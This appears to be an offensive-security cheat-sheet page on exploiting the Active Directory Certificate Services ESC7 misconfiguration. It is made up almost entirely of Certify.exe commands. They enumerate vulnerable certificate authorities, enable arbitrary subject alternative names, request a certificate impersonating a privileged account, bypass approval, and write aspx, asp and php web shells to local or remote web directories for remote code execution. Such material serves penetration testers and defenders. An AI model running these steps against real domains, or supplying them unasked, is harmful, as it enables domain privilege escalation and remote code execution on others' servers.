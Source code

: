 # Active Directory - Certificate ESC7

## ESC7 - Vulnerable Certificate Authority Access Control

**Exploitation**

* Detect CAs that allow low privileged users the `ManageCA`  or `Manage Certificates` permissions

    ```ps1
    Certify.exe find /vulnerable
    ```

* Change the CA settings to enable the SAN extension for all the templates under the vulnerable CA (ESC6)

    ```ps1
    Certify.exe setconfig /enablesan /restart
    ```

* Request the certificate with the desired SAN.

    ```ps1
    Certify.exe request /template:User /altname:super.adm
    ```

* Grant approval if required or disable the approval requirement

    ```ps1
    # Grant
    Certify.exe issue /id:[REQUEST ID]
    # Disable
    Certify.exe setconfig /removeapproval /restart
    ```

Alternative exploitation from **ManageCA** to **RCE** on ADCS server:

```ps1
# Get the current CDP list. Useful to find remote writable shares:
Certify.exe writefile /ca:SERVER\ca-name /readonly

# Write an aspx shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

# Write the default asp shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

# Write a php shell to a remote web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input:C:\Local\path\shell.php
```

## References

* [AD CS: weaponizing the ESC7 attack - Kurosh Dabbagh - 26 January, 2022](https://www.blackarrow.net/adcs-weaponizing-esc7-attack/)
